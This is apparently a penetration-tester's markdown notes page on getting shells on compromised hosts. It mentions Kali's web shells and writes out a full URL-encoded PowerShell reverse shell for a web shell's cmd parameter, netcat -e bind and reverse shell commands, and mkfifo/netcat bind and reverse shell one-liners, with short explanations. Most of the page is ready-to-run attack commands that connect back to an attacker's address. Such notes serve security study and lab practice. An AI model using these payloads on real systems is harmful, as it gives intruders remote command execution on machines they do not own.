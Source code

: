 There are a variety of webshells available on Kali by default at `/usr/share/webshells`.  Note that for a Windows target is often easiest to obtain RCE using a web shell or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former, obtaining RCE is often done with a URL encoded powershell reverse shell. This would be copied into the URL as the `cmd` argument
```sh
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
which is the same as [[Shells#Powershell|this one]]

# Payloads
 Refer to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for a cool repository 
### Netcat
[[Netcat]] has an option `-e` that allows us to execute a process on connection. For example, as a listener
```sh
nc -lnvp <port> -e /bin/bash
```
Connecting to the above listener with would result in a bind shell on the target. Equally, for a reverse shell, connecting back with 
```sh
nc <ip> <port> -e /bin/bash 
```
would result in a reverse shell on the target

However this is not included in most versions of netcat is it is widely seen to be very insecure. While on windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:
```sh
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

*The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.*

A very similar command can be used to send a netcat reverse shell
```sh
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax
